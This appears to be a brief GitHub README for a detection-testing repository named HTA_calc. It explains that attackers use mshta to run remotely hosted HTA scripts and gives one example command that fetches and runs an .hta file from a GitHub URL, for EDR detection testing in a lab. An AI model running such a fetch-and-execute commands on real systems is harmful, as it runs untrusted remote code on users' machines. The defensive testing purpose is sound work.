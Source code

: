 # HTA_calc
Testing malicious remote HTA script execution.

Threat Actors can run HTA scripts on windows devices that are remotely hosted by use of mshta.

Example Command:
```
mshta https://raw.githubusercontent.com/MalwareLab49/HTA_calc/main/HTA_calc.hta
```

The intent of this content is to allow for testing in a lab enviornment with EDR deployed to confirm that custiom detections are working as intended.
